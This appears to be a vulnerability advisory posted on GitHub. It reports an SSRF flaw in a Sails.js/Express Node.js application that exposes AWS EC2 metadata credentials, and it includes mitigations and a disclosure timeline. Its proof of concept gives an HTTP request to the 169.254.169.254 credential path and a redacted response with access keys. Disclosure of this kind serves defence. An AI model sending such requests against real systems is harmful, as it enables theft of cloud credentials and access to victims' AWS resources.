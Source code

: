 # 🛡️ Vulnerability Report – SSRF Leading to AWS EC2 Metadata Credential Leak (0-day) 🚨

## 📋 Summary

A Server-Side Request Forgery (**SSRF**) vulnerability was discovered in a Node.js application built with **Sails.js** and **Express** frameworks. This vulnerability allows attackers to send unauthorized HTTP requests from the server to internal resources, including the AWS EC2 Metadata Service at `169.254.169.254`.

Exploitation results in disclosure of temporary AWS credentials (`AccessKeyId`, `SecretAccessKey`, and `Token`), potentially allowing access to AWS resources depending on the assigned IAM role.

This vulnerability is considered a **0-day**, discovered independently and unpatched at time of reporting.

---

## ⚙️ Technical Details

| **Attribute**      | **Details**                                           |
| ------------------ | ----------------------------------------------------- |
| Vulnerability Type | SSRF (Server-Side Request Forgery) 🔗                 |
| Platform           | Node.js (TypeScript), Sails.js, Express 💻            |
| Impact             | Disclosure of AWS EC2 Metadata credentials 🔐         |
| Exploitation       | Server-side HTTP requests to EC2 metadata endpoint 🌐 |
| Severity           | Critical ⚠️ (CVSS 9.0+)                               |
| Status             | 0-day — unpatched and unknown 🆕                      |

---

## 🔬 Proof of Concept (PoC)

<img width="1920" height="954" alt="bug6" src="https://github.com/user-attachments/assets/f5b8334f-6718-4ebb-b2d0-b860c18a8b63" />


```http
GET http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance HTTP/1.1
Host: <target-host>
User-Agent: Mozilla/5.0 (compatible)
```

**Response (redacted):**

```json
{
  "Code": "Success",
  "AccessKeyId": "ASIAXXXXXXXX",
  "SecretAccessKey": "kQDZcJXXXXXXXXXX",
  "Token": "IQoJb3JpZ2luX2VjEIr/////...",
  "Expiration": "2025-07-19T15:41:24Z"
}
```

---

## 💥 Impact

| **Potential Actions**               | **Description**                       |
| ----------------------------------- | ------------------------------------- |
| Access S3 buckets 📦                | List/download stored data             |
| Invoke Lambda functions ⚙️          | Execute cloud functions               |
| Query or modify DynamoDB tables 🗄️ | Access or change database entries     |
| Other AWS API actions 🔄            | As permitted by the assigned IAM role |

Consequences include unauthorized data access, exfiltration, service disruption, or privilege escalation 🚨.

---

## 🛠️ Recommendations

| **Mitigation**      | **Details**                                             |
| ------------------- | ------------------------------------------------------- |
| Input Validation ✅  | Sanitize and validate user inputs used in HTTP requests |
| Allowlist 🔒        | Restrict outgoing server HTTP requests to trusted URLs  |
| Network Controls 🛑 | Block access to `169.254.169.254` via firewall and OS   |
| Use IMDSv2 🔐       | Require IMDSv2 tokens for metadata access on EC2        |
| Audit Code 🔍       | Review server-side HTTP calls for SSRF                  |

---

## 📅 Disclosure Timeline

| **Date**             | **Event**                         |
| -------------------- | --------------------------------- |
| July 19, 2025 🗓️    | Vulnerability Discovered          |
| Multiple attempts 📧 | Contacted vendor, no response     |
| Current ⏳            | Awaiting vendor patch or response |

---

## 📝 Notes

This vulnerability resembles **CVE-2025-2828** but might be a distinct instance due to application specifics.

---

## 🙌 Credits

Discovered and reported by [@B1ack4sh](https://github.com/B1ack4sh)

---


